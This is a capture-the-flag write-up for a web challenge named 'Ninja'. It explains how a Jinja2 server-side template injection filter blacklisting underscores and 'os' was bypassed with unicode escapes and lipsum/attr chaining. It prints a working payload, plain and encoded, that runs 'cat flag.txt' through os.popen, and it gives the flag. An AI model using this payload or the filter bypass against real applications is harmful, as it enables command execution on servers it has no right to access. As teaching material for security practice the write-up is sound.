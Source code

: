 # Ninja

Challenge's Desecription: Hey guys come checkout this website i made to test my ninja-coding skills.

# Vulnerability
First i thought This challenge will be XSS. But my one teammate told me that The challenge is SSTI jinja2 vulnerable. Thanks my mate. His discord(patrickaIi#7879)

# idea_for_solution

So we knew that is SSTI injection. By the problem is we can't inject any code. There is a blacklist. not allowed list:  _ ,config ,os, RUNCMD, base
F**k. They didn't allowed the os. This is a big problem. But we can bypass this with encoding. So the real problem is what encoding we need to use?. I used the unicode encoding to solve.

# Solution
I used the (lipsum) built in function of jinja2 and i used (attr) to bypass (underscores). and i used some other functions and i encode it with unicode.

So final payload is like this: {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

I used this payload and GOt flag. Nice challenge.

# Payloads
original payload = lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('cat flag.txt')|attr('read')() And 
encoded payload = {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

# Flag
flag{m0mmy_s33_1m_4_r34l_n1nj4}

# Sorry
I can't upload or put images here because of my laptop error. Sorry for this.
